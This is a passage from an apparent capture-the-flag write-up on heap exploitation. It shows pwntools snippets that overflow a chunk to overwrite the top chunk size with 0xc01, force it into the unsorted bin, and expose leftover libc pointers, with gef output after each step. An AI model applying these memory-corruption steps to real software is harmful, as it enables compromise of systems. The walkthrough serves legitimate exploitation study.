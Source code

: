 Knowing this, we can now edit the chunk we allocated and use the `16-byte` write past the allocated memory to overwrite the chunk size with `0xc01` (we need to keep the lower bits the same for page alignment). We can modify our script as follows:

```py
...
edit(0, b"A"*352 + p64(0) + p64(0xc01))
r.interactive()
```

We see that with this, we are able to overwrite the top chunk size successfully.

```console
gef➤  heap chunks
Chunk(addr=0x55de47036010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055de47036010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55de470362a0, size=0x170, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055de470362a0     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x55de47036410, size=0xc00, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
gef➤  x/gx 0x55de470362a0+360
0x55de47036408: 0x0000000000000c01
```

Now, following our plan, if we allocate a chunk larger than the top chunk size, we should see that the original top chunk is freed and placed into an unsorted bin.

```py
...
add(1, 0x1000, b"A"*8)
r.interactive()
```

We can see that this works, as the original top chunk is now in the unsorted bins.

```console
gef➤  heap bins unsorted
────────────────────────────────────────── Unsorted Bin for arena at 0x7fe8a7603ac0 ──────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x55f7191a2400, bk=0x55f7191a2400
 →   Chunk(addr=0x55f7191a2410, size=0xbe0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
[+] Found 1 chunks in unsorted bin.
```

Now, if we allocate a new chunk, since there is a chunk in the unsorted bin, we will cut that.

```py
...
add(2, 64, b"A")
r.interactive()
```

Not only do we see that this is the case, but we can also observe that the unsorted bin list is not cleared, and there are still some pointers left in the chunk.

```console
gef➤  heap bins unsorted
────────────────────────────────────────── Unsorted Bin for arena at 0x7f514c203ac0 ──────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x55e0e93da450, bk=0x55e0e93da450
 →   Chunk(addr=0x55e0e93da460, size=0xb90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
[+] Found 1 chunks in unsorted bin.
gef➤  x/gx (void *)&chunks+0x10
0x55e0e8e4a070 <chunks+16>:     0x000055e0e93da410
gef➤  x/4gx 0x000055e0e93da410
0x55e0e93da410: 0x00007f514c200a41      0x00007f514c204100
0x55e0e93da420: 0x000055e0e93da400      0x000055e0e93da400
```
